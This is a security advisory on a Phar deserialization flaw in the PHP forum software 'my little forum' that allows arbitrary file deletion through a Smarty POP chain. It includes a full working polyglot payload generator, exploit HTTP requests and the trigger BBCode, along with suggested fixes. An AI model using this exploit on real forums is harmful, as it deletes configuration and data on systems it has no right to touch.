



# Title: Phar Deserialization leading to Arbitrary File Deletion in my little forum <= 20251129.1

# **BUG_Author:** [yaklang.io, IRify, Yakit]

## Product Information

- **Vendor Homepage:** [https://mylittleforum.net/](https://mylittleforum.net/)
- **Software Link:** [https://github.com/ilosuna/mylittleforum](https://github.com/ilosuna/mylittleforum)
- **Affected Version:** <= 20251129.1 (Latest as of Dec 2025)
- **Affected PHP Version:** PHP < 8.0 (7.3, 7.4)
- **BUG Author:** yaklang.io, IRify

## Vulnerability Details

### Vulnerable Files

- `includes/functions.inc.php` (Lines 528-556) - `do_bbcode_img()` function
- `includes/functions.inc.php` (Lines 398-404) - `contains_invalid_string()` function
- `includes/upload_image.inc.php` (Lines 13-102) - Image upload functionality

### Vulnerability Type

- CWE-502: Deserialization of Untrusted Data
- CWE-915: Improperly Controlled Modification of Dynamically-Determined Object Attributes

### Root Cause

The application fails to filter the `phar://` protocol in URL validation, allowing attackers to:

1. Upload a malicious Phar Polyglot file (disguised as JPEG) via the image upload feature
2. Trigger Phar deserialization through BBCode `[img]` tag processing
3. Exploit Smarty 4.1.0 POP chain to achieve arbitrary file deletion

**Vulnerable Code - Missing phar:// filter (Lines 398-404)**:

```php
function contains_invalid_string($string) {
    $invalid_strings = array('<', '>', '\'', '"', 'expression(');
    // VULNERABILITY: Missing 'phar' protocol filter!
    if (preg_match('/^(javascript|file|data|jar)\:/i', $string)) return true;
    foreach ($invalid_strings as $invalid_string) 
        if (strpos(strtolower($string), $invalid_string) !== false) return true;
    return false;
}
```

**Vulnerable Code - Phar trigger point (Lines 528-556)**:

```php
function do_bbcode_img($action, $attributes, $content, $params, $node_object) {
    if ($action == 'validate') {
        if (!is_valid_url($content)) {  // phar:// passes validation
            return false;
        }
        // ...
    } else {
        $strSize = '';
        if (strpos($content, 'images/uploaded/', 0) !== false) {
            $size = @getimagesize($content);  // 🔥 Triggers Phar deserialization!
            // ...
        }
        // ...
    }
}
```

**Smarty 4.1.0 POP Chain**:

```
Smarty_Internal_Template::__destruct()
  └─> if ($this->smarty->cache_locking && isset($this->cached) && $this->cached->is_locked)
      └─> $this->cached->handler->releaseLock($this->smarty, $this->cached)
          └─> Smarty_Internal_CacheResource_File::releaseLock()
              └─> @unlink($cached->lock_id)  // Arbitrary file deletion
```

### Impact

**Severity: High (CVSS 8.1)**

Attackers can exploit this vulnerability to:

1. **Denial of Service (DoS)**: Delete critical configuration files (`config/db_settings.php`) causing complete application failure
2. **Security Bypass**: Delete `.htaccess` files to expose directory structure and bypass security configurations
3. **Data Destruction**: Delete uploaded images, theme files, or other application data
4. **Persistent Damage**: Delete installation files preventing system recovery

### Vulnerability Details

The vulnerable endpoint flow:

```
1. Upload: POST /index.php?mode=upload_image
   └─> File saved to: images/uploaded/[timestamp][uniqid].jpg

2. Trigger: POST /index.php?mode=posting (with preview)
   └─> BBCode: [img]phar://images/uploaded/malicious.jpg/x[/img]
   └─> getimagesize() triggers Phar deserialization
   └─> Smarty POP chain executes
   └─> Target file deleted on request completion
```

**Prerequisites**:
- PHP version < 8.0 (Phar metadata auto-deserialization removed in PHP 8.0+)
- Image upload enabled (`upload_images` setting = 1, 2, or 3) - **disabled by default**, but commonly enabled for forum functionality
- BBCode enabled (`bbcode` setting = 1) - enabled by default
- User account with posting privileges (or `upload_images` = 3 for anonymous upload)

**Note on Image Upload Setting**:
The image upload feature is **disabled by default** (`upload_images` = 0). However, forum administrators commonly enable this feature to allow users to share images in posts. The setting values are:
- `0`: Disabled (default)
- `1`: Moderators and admins only
- `2`: Registered users (common configuration)
- `3`: All users including anonymous (less common but possible)

### Attack Vectors

1. **Phar Polyglot Upload**: Upload malicious Phar file disguised as valid JPEG image
2. **BBCode Injection**: Inject `phar://` URL in `[img]` BBCode tag
3. **Deserialization Trigger**: `getimagesize()` function triggers Phar metadata deserialization
4. **POP Chain Execution**: Smarty 4.1.0 `__destruct` method executes arbitrary file deletion

### Attack Payload Examples

#### 1. Generate Malicious Phar Polyglot

```bash
php -d phar.readonly=0 phar_generator.php /var/www/html/mylittleforum/config/db_settings.php
```

#### 2. Upload Malicious Image

```http
POST /mylittleforum/index.php HTTP/1.1
Host: 127.0.0.1
Cookie: PHPSESSID=qf12pol42jgqk71te45bcqo3hq
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW

------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="mode"

upload_image
------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="probe"; filename="exploit.jpg"
Content-Type: image/jpeg

<Phar Polyglot binary content from smarty_exploit.jpg>
------WebKitFormBoundary7MA4YWxkTrZu0gW--
```

**Expected Response** (successful upload):
```html
<code>[img]images/uploaded/2025120807154469367b20459b6.jpg[/img]</code>
```

#### 3. Trigger Phar Deserialization

```http
POST /mylittleforum/index.php HTTP/1.1
Host: 127.0.0.1
Accept-Language: zh-CN,zh;q=0.9
Sec-Fetch-Site: same-origin
Cookie: mlf2_usersettings=0.0.1.0.0; mlf2_last_visit=1765178856.1765178856; PHPSESSID=0rqa89qdcbm1th79ttd6nhudjp
sec-ch-ua-platform: "macOS"
Sec-Fetch-Mode: navigate
Cache-Control: max-age=0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://127.0.0.1/mylittleforum/index.php?mode=posting
sec-ch-ua: "Chromium";v="142", "Google Chrome";v="142", "Not_A Brand";v="99"
sec-ch-ua-mobile: ?0
Origin: http://127.0.0.1
Accept-Encoding: gzip, deflate, br, zstd
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
Sec-Fetch-User: ?1
Content-Length: 290

csrf_token=69367de8bdf840.46008156&back=index&mode=posting&id=0&uniqid=69367dfa53e2b&posting_mode=0&1508ffc507bc4c2cc65134ae7e4cdcdd33f1e5c3cb925f3494a247307484e798=abc&text=%5Bimg%5Dphar%3A%2F%2Fimages%2Fuploaded%2F2025120807154469367b20459b6.jpg%2Fx%5B%2Fimg%5D&preview=%E9%A2%84%E8%A7%88
```

**Note**: The subject field name (`1508ffc507bc4c2cc65134ae7e4cdcdd33f1e5c3cb925f3494a247307484e798`) is dynamically generated per session as anti-spam measure. Extract it from the GET response of posting page first.

**Expected Result**: Target file deleted after HTTP response completes

## Code Scan

This vulnerability is found by [IRify](https://ssa.to):

Static code analysis identified the following security issues:

- Missing `phar://` protocol in URL validation blacklist
- Unsafe use of `getimagesize()` on user-controlled input
- Smarty 4.1.0 POP chain available for exploitation
- No content-based validation for uploaded Phar polyglot files

**Detection Pattern**:

```
Source: $_FILES['probe'] (upload_image.inc.php:13)
        $_POST['text'] -> BBCode [img] content (posting.inc.php)
Sink: getimagesize($content) (functions.inc.php:540)
Data Flow: Upload -> BBCode parsing -> getimagesize() with phar:// wrapper
POP Chain: Smarty_Internal_Template::__destruct() -> unlink()
```

## Proof of Concept

This vulnerability is validated by [Yakit](https://www.yaklang.io/)

**Validation Steps**:

1. **Setup Environment**:
   - Install my little forum with PHP 7.4
   - Configure database and complete installation
   - **Enable image upload** in admin settings (`upload_images` = 2 for registered users) - this is disabled by default but commonly enabled for forum functionality
   - Register a user account

2. **Generate Phar Payload**:
   ```bash
   php -d phar.readonly=0 phar_generator.php /var/www/html/mylittleforum/config/db_settings.php
   ```

3. **Upload Malicious Image** (Step 1):

   

4. **Trigger Exploitation** (Step 2):

   

5. **Exploitation Result**:
   - Phar polyglot uploaded successfully (passes JPEG validation)
   - BBCode processed, `getimagesize()` called with `phar://` URL
   - Smarty POP chain executed on request completion
   - Target file deleted
   
   

## Payload Generator Code

The following PHP script generates a malicious Phar Polyglot file that exploits the Smarty 4.1.0 POP chain:

```php
<?php
/**
 * My Little Forum - Phar Deserialization + Smarty POP Chain PoC
 * 
 * Vulnerability: Phar deserialization -> Smarty 4.x POP chain -> Arbitrary file deletion
 * Affected: PHP < 8.0 (7.3, 7.4)
 * 
 * Usage:
 *   php -d phar.readonly=0 phar_generator.php <target_file_to_delete>
 * 
 * Example:
 *   php -d phar.readonly=0 phar_generator.php /var/www/html/mylittleforum/config/db_settings.php
 * 
 * Attack Steps:
 *   1. Run this script to generate smarty_exploit.jpg
 *   2. Upload smarty_exploit.jpg to forum (via image upload feature)
 *   3. Post content: [img]phar://images/uploaded/smarty_exploit.jpg/x[/img]
 *   4. When post is rendered, target file gets deleted
 */

// ==================== Configuration Check ====================

if (php_sapi_name() !== 'cli') {
    die("Please run this script from command line\n");
}

if (ini_get('phar.readonly')) {
    die("Error: phar.readonly is enabled\nRun: php -d phar.readonly=0 " . $argv[0] . " <target_file>\n");
}

if (!isset($argv[1])) {
    echo "Usage: php -d phar.readonly=0 " . $argv[0] . " <target_file_to_delete>\n";
    echo "Example: php -d phar.readonly=0 " . $argv[0] . " /var/www/html/forum/config/db_settings.php\n";
    exit(1);
}

$target_file = $argv[1];

echo "========================================\n";
echo "My Little Forum Phar PoC Generator\n";
echo "========================================\n\n";
echo "[*] Target file: $target_file\n\n";

// ==================== Load Smarty ====================

// Find Smarty library
$smarty_paths = [
    __DIR__ . '/../modules/smarty/Smarty.class.php',
    __DIR__ . '/modules/smarty/Smarty.class.php',
    './modules/smarty/Smarty.class.php',
];

$smarty_loaded = false;
foreach ($smarty_paths as $path) {
    if (file_exists($path)) {
        require_once($path);
        $smarty_loaded = true;
        echo "[+] Smarty loaded: $path\n";
        break;
    }
}

if (!$smarty_loaded) {
    die("[-] Error: Cannot find Smarty.class.php\nPlease run this script in mylittleforum directory\n");
}

echo "[+] Smarty version: " . Smarty::SMARTY_VERSION . "\n\n";

// ==================== Helper Functions ====================

/**
 * Create object instance without calling constructor
 * Required for classes with mandatory constructor parameters
 */
function createWithoutConstructor($className) {
    return (new ReflectionClass($className))->newInstanceWithoutConstructor();
}

/**
 * Set private/protected property value via reflection
 */
function setProperty($object, $property, $value) {
    $ref = new ReflectionClass($object);
    $prop = $ref->getProperty($property);
    $prop->setAccessible(true);
    $prop->setValue($object, $value);
}

// ==================== Build POP Chain ====================

echo "[*] Building Smarty POP chain...\n";

/*
 * POP Chain Structure:
 * 
 * Smarty_Internal_Template::__destruct()
 *   └─> if ($this->smarty->cache_locking && isset($this->cached) && $this->cached->is_locked)
 *       └─> $this->cached->handler->releaseLock($this->smarty, $this->cached)
 *           └─> Smarty_Internal_CacheResource_File::releaseLock()
 *               └─> @unlink($cached->lock_id)  // Arbitrary file deletion
 */

// 1. Smarty object (cache_locking = true to enter the if block)
$smarty = new Smarty();
$smarty->cache_locking = true;

// 2. Handler (Smarty_Internal_CacheResource_File contains releaseLock method)
$handler = new Smarty_Internal_CacheResource_File();

// 3. Cached object (Smarty_Template_Cached)
$cached = createWithoutConstructor('Smarty_Template_Cached');
setProperty($cached, 'is_locked', true);           // Required to enter if block
setProperty($cached, 'lock_id', $target_file);     // File to delete!
setProperty($cached, 'handler', $handler);         // Handler with releaseLock()

// 4. Template object (Smarty_Internal_Template - entry point via __destruct)
$template = createWithoutConstructor('Smarty_Internal_Template');
setProperty($template, 'smarty', $smarty);
@$template->cached = $cached;  // Use magic method to set dynamic property

echo "[+] POP chain built successfully\n";
echo "    Smarty_Internal_Template\n";
echo "      └─> smarty (cache_locking=true)\n";
echo "      └─> cached\n";
echo "            └─> is_locked = true\n";
echo "            └─> lock_id = $target_file\n";
echo "            └─> handler (Smarty_Internal_CacheResource_File)\n\n";

// ==================== Generate Phar Polyglot ====================

echo "[*] Generating Phar Polyglot...\n";

// Minimal valid JPEG (1x1 white pixel)
// This allows the file to pass getimagesize() validation
$jpeg_header = base64_decode(
    '/9j/4AAQSkZJRgABAQEASABIAAD/2wBDAAgGBgcGBQgHBwcJCQgKDBQNDAsLDBkSEw8UHRof' .
    'Hh0aHBwgJC4nICIsIxwcKDcpLDAxNDQ0Hyc5PTgyPC4zNDL/2wBDAQkJCQwLDBgNDRgyIRwh' .
    'MjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjL/wAAR' .
    'CAABAAEDASIAAhEBAxEB/8QAFQABAQAAAAAAAAAAAAAAAAAAAAn/xAAUEAEAAAAAAAAAAAAAAAAA' .
    'AAAA/8QAFQEBAQAAAAAAAAAAAAAAAAAAAAX/xAAUEQEAAAAAAAAAAAAAAAAAAAAA/9oADAMB' .
    'AAIRAxEAPwCwAB//2Q=='
);

$phar_file = __DIR__ . '/smarty_exploit.phar';
$jpg_file = __DIR__ . '/smarty_exploit.jpg';

// Clean up existing files
@unlink($phar_file);
@unlink($jpg_file);

// Create Phar with JPEG as stub prefix
$phar = new Phar($phar_file);
$phar->startBuffering();

// Stub: JPEG data + PHP tag + __HALT_COMPILER
// Phar parser ignores everything before __HALT_COMPILER
// JPEG parser reads the image data and ignores the rest
$stub = $jpeg_header . '<?php __HALT_COMPILER(); ?>';
$phar->setStub($stub);

// Add dummy file (required for valid Phar)
$phar->addFromString('x', 'x');

// Set metadata - this gets deserialized when phar:// is accessed
$phar->setMetadata($template);
$phar->stopBuffering();

echo "[+] Phar created: $phar_file\n";

// Rename to .jpg for upload
copy($phar_file, $jpg_file);
@unlink($phar_file);

echo "[+] Polyglot generated: $jpg_file\n";

// ==================== Verification ====================

echo "\n[*] Verifying file...\n";

// Verify JPEG validity
$image_info = @getimagesize($jpg_file);
if ($image_info !== false) {
    echo "[+] JPEG validation: PASSED (MIME: {$image_info['mime']})\n";
} else {
    echo "[-] JPEG validation: FAILED\n";
}

// Verify Phar validity
$phar_valid = @file_exists('phar://' . $jpg_file . '/x');
echo "[+] Phar validation: " . ($phar_valid ? "PASSED" : "FAILED") . "\n";

// ==================== Usage Instructions ====================

echo "\n========================================\n";
echo "Exploitation Steps\n";
echo "========================================\n\n";

echo "1. Upload file:\n";
echo "   Upload smarty_exploit.jpg to forum\n";
echo "   (via image upload feature in posting)\n\n";

echo "2. Get uploaded path:\n";
echo "   After upload, image is saved to images/uploaded/ directory\n";
echo "   Note the generated filename from response\n\n";

echo "3. Trigger vulnerability:\n";
echo "   Post content containing:\n";
echo "   [img]phar://images/uploaded/<uploaded_filename>.jpg/x[/img]\n\n";

echo "4. Result:\n";
echo "   When post is rendered, target file will be deleted:\n";
echo "   $target_file\n\n";

echo "========================================\n";
echo "Important Notes\n";
echo "========================================\n\n";

echo "- This vulnerability only works on PHP < 8.0\n";
echo "- PHP 8.0+ no longer auto-deserializes Phar metadata\n";
echo "- Target forum must have image upload enabled\n";
echo "- BBCode [img] tag must be enabled\n\n";

echo "[+] File generated: $jpg_file\n";
echo "[+] File size: " . filesize($jpg_file) . " bytes\n";

// Cleanup - prevent __destruct from triggering in this script
$template = null;
$cached = null;
$handler = null;
$smarty = null;
```

## Suggested Repairs

### Immediate Fixes

#### 1. Add phar:// Protocol to Blacklist (Critical - Must Implement)

Update `includes/functions.inc.php`:

```php
function contains_invalid_string($string) {
    $invalid_strings = array('<', '>', '\'', '"', 'expression(');
    // Add 'phar' to blocked protocols
    if (preg_match('/^(javascript|file|data|jar|phar|compress\.zlib|compress\.bzip2|zip|rar|expect|glob|ssh2|ogg)\:/i', $string)) {
        return true;
    }
    foreach ($invalid_strings as $invalid_string) {
        if (strpos(strtolower($string), $invalid_string) !== false) {
            return true;
        }
    }
    return false;
}
```

#### 2. Validate Image Content Before Processing

Add additional validation in `do_bbcode_img()`:

```php
function do_bbcode_img($action, $attributes, $content, $params, $node_object) {
    if ($action == 'validate') {
        if (!is_valid_url($content)) {
            return false;
        }
        // Block any stream wrapper that's not http/https
        if (preg_match('/^(?!https?:\/\/).+:\/\//i', $content)) {
            return false;
        }
        return true;
    } else {
        // Only process local uploaded images with realpath validation
        if (strpos($content, 'images/uploaded/', 0) !== false) {
            // Ensure the path is within allowed directory
            $real_path = realpath($content);
            $allowed_dir = realpath('images/uploaded/');
            if ($real_path === false || strpos($real_path, $allowed_dir) !== 0) {
                return '[invalid image]';
            }
            $size = @getimagesize($content);
            // ... rest of code
        }
    }
}
```

#### 3. Disable Phar Stream Wrapper (Server-Level)

Add to `php.ini` or `.htaccess`:

```ini
; Disable phar stream wrapper
; php.ini
phar.readonly = 1

; Or in .htaccess
php_flag phar.readonly on
```

#### 4. Upgrade to PHP 8.0+

PHP 8.0 and later versions no longer automatically deserialize Phar metadata when accessing files via `phar://` stream wrapper, effectively mitigating this vulnerability class.

#### 5. Content-Based File Validation

Enhance upload validation in `upload_image.inc.php`:

```php
// After getimagesize() check, add Phar signature detection
$file_content = file_get_contents($_FILES['probe']['tmp_name'], false, null, 0, 1024);
if (strpos($file_content, '__HALT_COMPILER()') !== false) {
    $errors[] = 'invalid_file_format';
}
```

### Long-Term Recommendations

1. **Security Audit**: Review all uses of file-related functions (`getimagesize()`, `file_exists()`, `include()`, etc.) for potential Phar deserialization
2. **Input Validation**: Implement allowlist-based URL validation instead of blocklist
3. **Dependency Update**: Keep Smarty and other libraries updated to patch known POP chains
4. **WAF Rules**: Deploy Web Application Firewall rules to block `phar://` in request parameters

## Timeline

- **2025-12-08**: Vulnerability discovered
- **2025-12-08**: PoC developed and validated
- **2025-12-08**: Report generated

## References

- [PHP Phar Deserialization](https://blog.ripstech.com/2018/new-php-exploitation-technique/)
- [Smarty POP Chains - PHPGGC](https://github.com/ambionics/phpggc)
- [CWE-502: Deserialization of Untrusted Data](https://cwe.mitre.org/data/definitions/502.html)
